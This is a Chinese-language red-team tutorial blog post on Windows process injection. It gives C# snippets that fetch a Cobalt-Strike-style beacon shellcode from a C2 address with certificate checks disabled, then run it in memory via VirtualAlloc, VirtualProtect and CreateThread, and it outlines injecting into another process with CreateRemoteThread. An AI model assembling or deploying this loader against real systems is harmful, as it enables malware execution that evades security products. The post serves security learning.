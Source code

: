 ```yaml
---
title: 进程注入(一)
date: 2023-02-27
categories: [红蓝对抗]
tags: [红蓝对抗, 进程注入]
---
```


## 0X00 什么是进程注入 

​	进程注入技术一直以来都是一个老生常谈的话题。这是一种广泛应用于恶意软件和无文件攻击中的逃避技术，这意味着攻击者可以将自定义代码运行在另一个进程的地址空间内，然后去进行敏感操作，以达到隐藏自身，绕过安全产品检测的目的。

## 0X01 CreateThread API

​	`CreateThread API`可以在调用进程过程中创建新线程，因此我们可以把shellcode注入到进程中。这也是最简单和最基本的注入类型之一。

​	我们可以使用`HttpClient`类从我们的C2下载shellcode。然后将其封装在using语句中或调用Dispose()方法。同时我们还必须使用`ServerCertificateCustomValidationCallback`来忽略签名SSL错误。

```c#
static async Task Main(string[] args)
{
    byte[] shellcode;

    using (var handler = new HttpClientHandler())
    {
        //忽略ssl
        handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

        using (var client = new HttpClient(handler))
        {
            shellcode = await client.GetByteArrayAsync("https://192.168.2.151/beacon.bin");
        }
    }
}
```

​	然后使用`VirtualAlloc`在此进程中分配新的内存区域。这个区域的空间大小必须能够容纳shellode，所以我们可以使用shellcode的长度作为参数。这个API通常会向上取整。(区域分配RW权限，以便避免RWX)。

```c#
// 将内存区域分配为RW
var baseAddress = Win32.VirtualAlloc(
    IntPtr.Zero,
    (uint)shellcode.Length,
    Win32.AllocationType.Commit | Win32.AllocationType.Reserve,
    Win32.MemoryProtection.ReadWrite);
```

将shellcode复制到此区域，我们可以使用诸如`WriteProcessMemory`等API，这里以Marshal.Copy为例。

```c#
// 复制shellcode到内存区域
Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);
```

在我们运行shellcode之前，我们必须将这个区域的内存保护从RW转变为RX。因为`VirtualProtect`采用了新的内存保护，并会弹出当前的保护。这里使用**_** 来处理它。

```c#
// 将内存区域转变为为RX
Win32.VirtualProtect(
    baseAddress,
    (uint)shellcode.Length,
    Win32.MemoryProtection.ExecuteRead,
    out _);
```

现在便可以运行我们的shellcode了

```c#
// 运行shellcode
var hThread = Win32.CreateThread(
    IntPtr.Zero,
    0,
    baseAddress,
    IntPtr.Zero,
    0,
    out _);
```

因为`CreateThread`不会阻塞调用，所以我们为了防止进程退出，我们可以使用`WaitForSingleObject`去wait这个线程。它将在线程运行期间进行阻塞，达到防止进程退出的目的。

```c#
// 在此线程上无限等待以防止进程退出
Win32.WaitForSingleObject(hThread, 0xFFFFFFFF);
```

结果如下：

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-27/1.png)

## 0x02 CreateRemoteThread

`CreateRemoteThread`的行为方式与`CreateThread`大致相同，但是它允许我们在自己的进程之外的进程中启动线程。这可以让我们将shellcode注入到不同的进程中。注入步骤实际上与前面的大差不差，只是我们使用的API有所不同。

我们可以把某个进程的PID用作目标进程。要打开目标进程的句柄，可以使用`OpenProcess` API或`.NETProcess`类。

```c#
using System.Diagnostics;

namespace CreateRemoteThread
{
    internal class Program
    {
        static void Main(string[] args)
        {
            var process = Process.GetProcessById(1234);
        }
    }
}
```

当然，我们也可以手动选择我们要注入的PID

```c#
var pid = int.Parse(args[0]);
var process = Process.GetProcessById(pid);
```

这里我们以一个记事本为例，这里记事本的PID为96

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-27/2.png)

运行后结果如下：

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-27/3.png)

## 0x03 小结

​	本文简单介绍了进程注入的知识，CreateThread和CreateRomoteTread在使用起来大同小异，实现的逻辑却有所不同。后面将会跟进一篇文章，继续介绍进程注入。

### 注：本文仅用于安全研究和学习之用